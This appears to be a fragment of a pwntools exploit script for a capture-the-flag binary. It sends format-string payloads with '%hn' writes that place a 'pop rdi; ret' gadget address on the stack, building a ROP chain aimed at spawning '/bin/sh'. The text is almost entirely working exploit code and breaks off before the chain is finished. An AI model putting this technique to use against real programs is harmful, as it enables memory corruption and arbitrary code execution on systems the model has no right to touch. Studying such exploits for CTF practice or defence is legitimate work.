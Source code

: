 ```
#echo_ret = 0x7fffffffdfb8
echo_ret = stack_addr1 + 0x18
pr_addr = pie_addr + 0x6c
log.info("pr_addr addr: " + hex(pr_addr + 8))

pause()

'''

##############test############
for i in range(0,99) :
   p.sendline('wait')

pause()


p.sendline('wait')

p.interactive()
#############test##############

'''



def edit1(low):
    pattern = "%{}c%{}$hn"
    payload = ""
    payload += pattern.format(low,8)
    payload = payload.ljust(16,"A")
    #pause()
    p.sendline(payload)

def edit2(data):
    pattern = "%{}c%{}$hn"
    payload = ""
    payload += pattern.format(data,12)
    payload = payload.ljust(16,"B")
    #pause()
    p.sendline(payload)

n = 16 + 14
pattern = "%{}c%{}$hn"

stack_addr2_low = stack_addr2 & 0xffff

a = stack_addr2_low -0x38

print hex(stack_addr2_low)

######## pop rdi;ret

pr_low = pr_addr & 0xffff
pr_mid = (pr_addr >> 16) & 0xffff
pr_high = (pr_addr >> 32) & 0xffff
edit1(stack_addr2_low - 24)
edit2(pr_low)
edit1(stack_addr2_low - 22)
edit2(pr_mid)
edit1(stack_addr2_low - 20)
edit2(pr_high)
 
### "/bin/sh\x00"
```